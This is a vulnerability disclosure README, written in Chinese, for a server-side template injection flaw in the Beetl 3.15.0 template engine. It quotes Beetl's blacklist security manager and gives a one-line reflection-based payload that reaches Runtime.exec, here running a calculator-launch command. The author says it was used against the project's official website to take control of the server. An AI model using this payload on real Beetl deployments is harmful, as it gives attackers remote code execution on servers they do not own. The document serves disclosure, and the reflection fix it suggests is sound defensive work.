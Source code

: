 # Beetl-3.15.0-vuln-poc
### Beetl直到最新版本都存在SSTI(模版注入)漏洞
- 对于安全管理器的策略采用的是黑名单的机制
```java
public class DefaultNativeSecurityManager implements NativeSecurityManager{

        @Override
        public boolean permit(String resourceId, Class c, Object target, String method){
                if (c.isArray()){
                        //允许调用，但实际上会在在其后调用中报错。不归此处管理
                        return true;
                }
                String name = c.getSimpleName();
                String pkg = c.getPackage().getName();
                if (pkg.startsWith("java.lang")){
                        if (name.equals("Runtime") || name.equals("Process") || name.equals("ProcessBuilder")
                                        || name.equals("System")){
                                return false;
                        }
                }
                return true;
        }
}
```

- 如果使用反射(java reflect)即可以绕过黑名单的一切策略

- poc
```java
${@Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("s='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")}
```
<img src="https://i.328888.xyz/2023/03/31/ilOcbN.png" alt="ilOcbN.png" border="0" />

- 拿官方的网站做例子 我输入了以下payload仅用于测试

<a href="https://imgloc.com/i/ilbloa"><img src="https://i.328888.xyz/2023/03/31/ilbloa.png" alt="ilbloa.png" border="0" /></a>

- 并成功拿到服务器的控制权限

<img src="https://i.328888.xyz/2023/03/31/ilbpyZ.png" alt="ilbpyZ.png" border="0" />

### 修复建议
- 限制反射(java reflect)

### 报告人
@luelueking















